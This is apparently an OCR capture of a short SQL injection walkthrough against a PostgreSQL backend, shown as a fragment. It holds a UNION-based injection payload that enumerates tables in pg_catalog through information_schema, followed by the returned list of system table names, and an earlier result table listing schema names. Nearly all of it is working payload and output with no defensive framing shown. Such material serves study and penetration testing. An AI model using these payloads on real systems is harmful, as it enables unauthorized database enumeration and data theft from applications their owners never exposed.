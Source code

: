 | 'a'  | schema_name        |
| ---- | ------------------ |
| a    | information_schema |
| a    | public             |
| a    | pg_catalog         |

' union select 'a',table_name from information_schema.tables where table_schema='pg_catalog'--+

=>

pg_ts_config_map
pg_constraint                   
pg_tablespace                   
pg_stat_bgwriter                
pg_stat_xact_user_functions     
pg_policy                       
pg_available_extensions         
pg_stat_user_tables             
pg_stat_wal_receiver            
pg_enum                         
pg_sequence                     
pg_stat_progress_create_index   
pg_tables                       
pg_user_mappings                
pg_seclabels                    
pg_auth_members                
pg_stats_ext                    
pg_statio_sys_indexes           
pg_prepared_xacts               
pg_views                        
pg_user                         
pg_stat_xact_sys_tables         
pg_sequences                    
pg_rewrite                      
pg_subscription                 
pg_stat_all_indexes             
pg_shdescription                
pg_stat_gssapi                  
pg_indexes                      
pg_statio_user_sequences        
pg_stat_archiver                
pg_ts_template                  
pg_timezone_names               
pg_foreign_server               
pg_type                         
pg_statio_user_tables           
pg_pltemplate                   
pg_stat_activity                
pg_ts_dict                      
pg_ts_parser                    
pg_extension                    
pg_language                     
pg_group                        
pg_statio_user_indexes          
pg_amop                         
pg_policies                     
pg_replication_slots            
pg_database                     
pg_shdepend                     
pg_publication                 
pg_db_role_setting              
pg_prepared_statements          
pg_stat_database_conflicts      